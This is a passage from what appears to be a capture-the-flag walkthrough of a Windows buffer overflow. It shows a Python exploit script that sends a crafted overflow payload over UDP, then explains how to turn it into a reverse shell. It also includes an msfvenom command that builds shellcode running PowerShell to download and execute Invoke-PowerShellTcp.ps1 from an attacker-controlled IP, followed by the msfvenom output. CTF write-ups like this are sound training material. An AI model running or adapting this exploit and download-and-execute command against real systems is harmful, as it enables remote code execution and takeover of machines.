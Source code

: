 ```python

fs = "\x55\x2A\x55\x6E\x58\x6E\x05\x14\x11\x6E\x2D\x13\x11\x6E\x50\x6E\x58\x43\x59\x39"
p  = "A0000000002#Main" + "\x00" + "Z"*114688 + "\x00" + "A"*10 + "\x00"
p += "A0000000002#Main" + "\x00" + "A"*57288 + "AAAAASI"*50 + "A"*(3750-46)
p += "\x62" + "A"*45
p += "\x61\x40" 
p += "\x2A\x46"
p += "\x43\x55\x6E\x58\x6E\x2A\x2A\x05\x14\x11\x43\x2d\x13\x11\x43\x50\x43\x5D" + "C"*9 + "\x60\x43"
p += "\x61\x43" + "\x2A\x46"
p += "\x2A" + fs + "C" * (157-len(fs)- 31-3)
p += buf + "A" * (1152 - len(buf))
p += "\x00" + "A"*10 + "\x00"

print "---->{P00F}!"
i=0
while i<len(p):
    if i > 172000:
        time.sleep(1.0)
    sent = sock.sendto(p[i:(i+8192)], server_address)
    i += sent
sock.close()
```
There are few modifications need to be done before we make it work for us. This is a classic `Buffer overflow` that allows us to overflow buffer and include our malicious shell code to get back reverse shell.

We can see the `msfvenom` command in the script commented out. It helps us to generate buffer payload(buf value) including the bad characters to avoid. Sample payload shown in the code executes `calc.exe` on the target machine. So, we'll change the `CMD` value to our convinience to get a reverse shell back to us. 

We also need to change the `server_address` to IP of chatterbox. There is some length limit of `1152` bytes on the payload. Anything that exceeds probably might not work. So, we need to keep that in mind while generating shell code using msfvenom.

## Initial Foothold
we'll generate the reverse shell payload using msfvenonm
```bash
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.WebClient).downloadString('http://10.10.14.17/Invoke-PowerShellTcp.ps1')\"" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

After running msfvenom payload will be generated in the following way 
```bash
Found 1 compatible encoders                                                                                                                                 
Attempting to encode payload with 1 iterations of x86/unicode_mixed                                                                                         
x86/unicode_mixed succeeded with size 704 (iteration=0)                                                                                                     
x86/unicode_mixed chosen with final size 704                                                                                                                
Payload size: 704 bytes                                                                                                                                     
Final size of python file: 3432 bytes                                                                                                                       
```